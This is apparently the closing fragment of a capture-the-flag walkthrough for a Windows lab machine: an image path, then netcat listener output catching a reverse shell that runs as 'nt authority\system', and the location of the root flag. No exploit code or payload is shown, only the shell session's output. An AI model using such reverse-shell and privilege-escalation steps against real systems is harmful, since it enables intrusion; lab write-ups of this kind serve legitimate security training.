 ```
listening on [any] 9001 ...
connect to [10.10.14.210] from (UNKNOWN) [10.129.77.37] 54582
Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

C:\programdata>whoami
whoami
nt authority\system

C:\programdata>
```
Root flag located at : `C:\Users\Administrator\Desktop\root.txt`
